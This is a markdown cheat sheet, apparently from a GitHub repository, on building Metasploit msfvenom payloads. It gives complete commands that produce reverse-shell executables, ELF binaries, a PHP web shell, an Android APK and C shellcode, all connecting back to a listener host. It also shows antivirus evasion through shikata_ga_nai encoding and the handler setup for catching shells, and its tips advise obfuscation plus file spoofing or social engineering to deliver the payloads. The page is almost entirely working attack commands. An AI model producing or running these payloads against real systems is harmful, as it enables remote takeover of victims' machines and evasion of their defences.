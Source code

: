 ## Basic Syntax

```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <output_file>
```

---

## 🔍 Common Payloads

| Platform | Payload                             | Description                    |
| -------- | ----------------------------------- | ------------------------------ |
| Windows  | `windows/meterpreter/reverse_tcp`   | Reverse shell with Meterpreter |
| Linux    | `linux/x86/meterpreter/reverse_tcp` | Reverse Meterpreter shell      |
| Web      | `php/meterpreter_reverse_tcp`       | PHP reverse shell              |
| Android  | `android/meterpreter/reverse_tcp`   | Android reverse shell          |

---

## 🎯 Example Commands

### ✅ 1. Windows Reverse Shell (EXE)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f exe -o shell.exe
```

### ✅ 2. Linux Reverse Shell (ELF)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf -o shell.elf
```

### ✅ 3. Web Shell in PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f raw -o shell.php
```

### ✅ 4. Android APK Payload

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 R > shell.apk
```

### ✅ 5. Shellcode (C Format)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f c
```

---

## 🔄 Output Formats (`-f`)

| Format                              | Use Case                     |
| ----------------------------------- | ---------------------------- |
| `exe`                               | Windows executable           |
| `elf`                               | Linux binary                 |
| `apk`                               | Android app                  |
| `raw`                               | Script languages (PHP, etc.) |
| `c`, `python`, `powershell`, `bash` | For injecting in source code |

---

## 🔐 Encoding Payloads

To evade antivirus, you can encode payloads using `-e` and `-i`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 3 -o encoded_shell.exe
```

| Flag | Description                         |
| ---- | ----------------------------------- |
| `-e` | Encoder (e.g. `x86/shikata_ga_nai`) |
| `-i` | Number of iterations                |

---

## 📞 Listener Setup (Handler)

Start a handler in `msfconsole` to catch the shell:

```
use exploit/multi/handler
```

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

```
set LHOST 10.10.14.10
```

```
set LPORT 4444
```

```
run
```

---

## 🧠 Tips

- Match `payload` type to target architecture (x86 vs x64).
- Obfuscate or encode payloads to bypass AV.    
- Combine with file spoofing or social engineering for delivery.

---

## 🧾 Cheat Sheet

List payloads

```
msfvenom -l payloads
```

List formats

```
msfvenom -l formats
```

List encoders

```
msfvenom -l encoders
```
